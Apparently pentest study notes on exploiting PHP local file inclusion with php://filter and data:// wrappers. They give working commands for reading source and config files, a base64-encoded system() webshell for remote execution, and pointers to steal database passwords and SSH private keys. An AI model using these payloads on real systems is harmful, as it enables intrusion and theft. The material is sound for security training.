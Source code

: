- [PHP Wrappers](https://www.php.net/manual/en/wrappers.php.php) allow us to access different I/O streams at the application level, like standard input/output, file descriptors, and memory streams.
- 4 types of filters: [String Filters](https://www.php.net/manual/en/filters.string.php), [Conversion Filters](https://www.php.net/manual/en/filters.convert.php), [Compression Filters](https://www.php.net/manual/en/filters.compression.php), and [Encryption Filters](https://www.php.net/manual/en/filters.encryption.php).
- Main parameters for filter wrapper are `resource` and `read`.
	- `resource` To specify the stream we would like to apply our filter on (e.g. local file).
	- `read` To apply different filters on the input resource.
	- The important filter for FI is `convert.base64-encode` filter, under [Conversion Filters](https://www.php.net/manual/en/filters.convert.php).
###  Scenarios
- **If we have a LFI and the site using appended extension to the user input and we want to read the local PHP files**:
	1. Fuzzing to find PHP files.
	   We are not restricted to pages with HTTP response code `200`, as we have local file inclusion access, so we should be scanning for all codes, including `301`, `302` and `403` pages, and we should be able to read their source code as well.
		``` bash
		ffuf -w seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://<SERVER_IP>:<PORT>/FUZZ.php
		configure               [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 69ms]
		```
	2.  We should use the payload `configure`: `www.example.com/index.php?lang=configure`
		1. If the web app uses a [Read, Write and Execute Functions](#read-write-and-execute-functions) that executes the content of the file, it won't show the file content.
		2. Using PHP wrapper with convert filter to encode the content of the file so it doesn't get executed
		   `www.example.com/index.php?lang=php://filter/read=convert.base64-encode/resource=config`
		3. Decode the output
			``` bash
			echo 'PD9waHAK...SNIP...KICB9Ciov' | base64 -d
			```
---
## From LCI to RCE
> [!Note]
> - `/etc/php/X.Y/apache2/php.ini` for Apache (`X.Y` is the PHP version installed).
> - `/etc/php/X.Y/fpm/php.ini` for Nginx.
> - Search for DB password in `config.php` and check for password reuse.
> - Check `.ssh` directory on each user home directory for their private keys `id_rsa`.
### PHP wrappers:
- [Data](https://www.php.net/manual/en/wrappers.data.php)
	- Check PHP configurations to see if (`allow_url_include`) setting is enabled.
		``` bash
		curl "http://URL/index.php?language=php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini"
		# Then decode the output
		echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep allow_url_include
		```
	- Encode our payload then send it with data wrapper `data://text/plain;base64`
		``` bash
		$ echo '<?php system($_GET["cmd"]); ?>' | base64
		PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8+Cg==
		$ curl -s 'http://URL/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id' | grep id
		```
- [Input](https://www.php.net/manual/en/wrappers.php.php)
	- Check PHP configurations to see if (`allow_url_include`) setting is enabled.
	- Send the payload as a POST parameter, so the vulnerable parameter must accept POST request.
